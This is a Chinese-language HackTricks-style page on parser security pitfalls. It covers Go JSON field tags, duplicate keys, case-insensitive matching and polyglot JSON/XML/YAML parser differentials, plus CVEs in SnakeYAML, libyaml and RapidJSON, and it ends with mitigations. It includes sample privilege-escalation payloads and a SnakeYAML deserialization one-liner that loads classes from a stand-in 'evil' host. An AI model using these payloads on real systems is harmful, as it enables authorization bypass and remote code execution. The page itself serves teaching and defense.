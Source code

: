 # JSON, XML & Yaml 黑客与问题

{{#include ../banners/hacktricks-training.md}}

## Go JSON Decoder

以下问题是在 Go 的 JSON 中发现的，尽管它们也可能存在于其他语言中。这些问题发布在 [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/)。

Go 的 JSON、XML 和 YAML 解析器在不一致性和不安全默认配置方面有着长期的问题链，这些问题可被滥用以 **绕过身份验证**、**提升权限** 或 **外泄敏感数据**。

### （反）序列化意外数据

目标是利用允许攻击者读/写敏感字段的 struct（例如 `IsAdmin`、`Password`）。

- 示例结构体:
```go
type User struct {
Username string `json:"username,omitempty"`
Password string `json:"password,omitempty"`
IsAdmin  bool   `json:"-"`
}
```
- 常见漏洞

1. **Missing tag** (no tag = 字段仍然会被默认解析):
```go
type User struct {
Username string
}
```
Payload:
```json
{"Username": "admin"}
```
2. **错误使用 `-`**:
```go
type User struct {
IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```
Payload:
```json
{"-": true}
```
✔️ 阻止字段被 (un)marshaled 的正确方法：
```go
type User struct {
IsAdmin bool `json:"-"`
}
```
### 解析器差异

目标是通过利用不同解析器对相同 payload 的不同解释来 bypass authorization，例如：
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks


**1. 重复字段:**
Go 的 `encoding/json` 会采用**最后**的字段。
```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```
其他解析器 (例如 Java’s Jackson) 可能会采用 **第一个**。

**2. 大小写不敏感：**
Go 对大小写不敏感：
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```
甚至 Unicode 技巧也有效：
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```
**3. Cross-service mismatch:**
想象：
- Proxy written in Go
- AuthZ service written in Python

攻击者发送：
```json
{
"action": "UserAction",
"AcTiOn": "AdminAction"
}
```
- Python 看到 `UserAction`，允许它
- Go 看到 `AdminAction`，执行它


### 数据格式混淆 (Polyglots)

目标是利用混合格式（JSON/XML/YAML）的系统，或在解析器错误时放行的情况，例如：
- **CVE-2020-16250**：HashiCorp Vault 在 STS 返回 JSON 而非 XML 后，使用 XML 解析器解析了 JSON。

攻击者控制：
- 请求头 `Accept: application/json`
- 对 JSON body 的部分控制

Go 的 XML 解析器**仍然**解析了它并信任了注入的身份。

- 构造的 payload:
```json
{
"action": "Action_1",
"AcTiOn": "Action_2",
"ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```
Result:
- **Go JSON** parser: `Action_2`（不区分大小写 + 后者生效）
- **YAML** parser: `Action_1`（区分大小写）
- **XML** parser: 解析字符串内的 `"Action_3"`

---

## 值得注意的解析器漏洞（2023-2025）

> 以下可公开利用的问题表明，不安全的解析是一个跨语言的问题 —— 不只是 Go 的问题。

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* 影响：`org.yaml:snakeyaml` < **2.0**（被 Spring-Boot、Jenkins 等使用）。
* 根本原因：`new Constructor()` 反序列化 **arbitrary Java classes**，允许 gadget chains 最终导致 remote-code execution。
* One-liner PoC（将在易受攻击的主机上打开计算器）：
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* 修复 / 缓解：
1. **Upgrade to ≥2.0** (uses `SafeLoader` by default).
2. On older versions, explicitly use `new Yaml(new SafeConstructor())`.

### libyaml 双重释放 (CVE-2024-35325)

* Affects: `libyaml` ≤0.2.5 (C library leveraged by many language bindings).
* 问题：调用 `yaml_event_delete()` 两次导致双重释放，攻击者可将其用于造成 DoS，或在某些场景下进行堆利用。
* 状态：上游以 “API misuse” 拒绝，但 Linux 发行版发布了修补的 **0.2.6**，对指针进行置空释放作为防御。

### RapidJSON 整数（下溢|上溢）(CVE-2024-38517 / CVE-2024-39684)

* Affects: Tencent **RapidJSON** before commit `8269bc2` (<1.1.0-patch-22).
* 漏洞：在 `GenericReader::ParseNumber()` 中，未检查的算术操作允许攻击者构造巨大的数字字面量导致回绕并破坏堆 — 最终当生成的对象图用于授权决策时可实现权限提升。

---

### 🔐 缓解措施（更新）

| 风险                                | 修复 / 建议                                               |
|-------------------------------------|------------------------------------------------------------|
| Unknown fields (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplicate fields (JSON)             | ❌ 标准库中无修复 — 使用 [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) 验证 |
| Case-insensitive match (Go)         | ❌ 无修复 — 验证结构体标签并预先规范化输入                   |
| XML garbage data / XXE              | 使用强化的解析器（`encoding/xml` + `DisallowDTD`）         |
| YAML unknown keys                   | `yaml.KnownFields(true)`                                   |
| **不安全的 YAML 反序列化**          | 使用 SafeConstructor / 升级到 SnakeYAML ≥2.0               |
| libyaml ≤0.2.5 双重释放             | 升级到 **0.2.6** 或 发行版已修补的版本                      |
| RapidJSON <patched commit           | 使用最新 RapidJSON 编译（≥July 2024）                      |

## See also

{{#ref}}
mass-assignment-cwe-915.md
{{#endref}}

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0”
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml)

{{#include ../banners/hacktricks-training.md}}
